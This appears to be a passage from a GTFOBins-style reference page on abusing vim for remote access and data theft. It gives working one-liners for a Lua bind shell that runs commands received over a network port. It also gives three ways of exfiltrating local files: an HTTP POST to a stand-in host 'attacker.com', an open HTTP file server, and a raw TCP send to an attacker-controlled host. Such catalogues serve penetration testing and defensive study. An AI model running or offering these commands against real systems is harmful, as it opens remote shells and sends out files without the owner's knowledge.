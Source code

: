
## **Non-interactive bind shell**

It can bind a non-interactive shell to a local port to allow remote network access.

- Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
    
    ```bash
    export LPORT=12345
    vim -c ':lua local k=require("socket");
      local s=assert(k.bind("*",os.getenv("LPORT")));
      local c=s:accept();
      while true do
        local r,x=c:receive();local f=assert(io.popen(r,"r"));
        local b=assert(f:read("*a"));c:send(b);
      end;c:close();f:close();'
    ```
    

## **File upload**

It can exfiltrate files on the network.

- This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via “d” parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
    
    ```bash
    export URL=http://attacker.com/
    export LFILE=file_to_send
    vim -c ':py import vim,sys; from os import environ as e
    if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
    else: import urllib as u, urllib2 as r
    r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
    vim.command(":q!")'
    ```
    
- This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
    
    ```bash
    export LPORT=8888
    vim -c ':py import vim,sys; from os import environ as e
    if sys.version_info.major == 3: import http.server as s, socketserver as ss
    else: import SimpleHTTPServer as s, SocketServer as ss
    ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
    vim.command(":q!")'
    ```
    
- Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
    
    ```bash
    export RHOST=attacker.com
    export RPORT=12345
    export LFILE=file_to_send
    vim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
      local d=f:read("*a")
      io.close(f);
      local s=require("socket");
      local t=assert(s.tcp());
      t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
      t:send(d);
      t:close();'
    ```
    